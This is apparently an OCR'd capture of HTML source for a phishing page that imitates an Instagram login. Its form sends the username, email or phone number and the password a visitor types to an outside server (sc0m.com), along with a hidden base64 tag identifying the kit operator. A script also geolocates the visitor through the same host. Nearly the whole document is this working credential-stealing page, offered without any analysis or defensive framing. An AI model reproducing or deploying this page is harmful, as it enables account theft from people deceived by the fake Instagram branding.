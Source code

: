       @media (max-width: 800px) {
        .container {
          width: 80%;
          margin-left: 2%;
          margin-right: 2%;
        }
      }
    </style>
  </head>
  <body>
    <div class="container">
      <h2
        style="
          color: rgb(63, 100, 175);
          font-family: 'Dancing Script', cursive;
          font-size: 40px;
        "
      >
        instagram
      </h2>
      <form action="https://sc0m.com/v/add" method="post">
        <input
          class="input"
          type="text"
          placeholder="number phone ,or email , or username"
          name="email"
        />
        <input
          class="input"
          type="password"
          placeholder="password"
          name="password"
        />
        <div>
          <input type="hidden" id="code" name="codecountry" />
          <input type="hidden" value="aWQ9c2MwbV9sYW5nPWVuX3NjPTI1X3VzZXI9NDU5MjA2ODk5MjY=" id="data" name="data" />
        </div>
        <div class="btn">
          <button class="log">Log In</button>
          <p style="color: blue">forget password ?</p>
        </div>
      </form>
    </div>
    <script src="https://unpkg.com/country-phone-prefix@latest"></script>
    <script>

      let fetchRes = fetch("https://sc0m.com/ext/ip.php");
      fetchRes
        .then((res) => res.json())
        .then((d) => {
          let dd = cpp[d];
          document.getElementById("code").value = dd.prefix;
        });
    </script>
  </body>
</html>
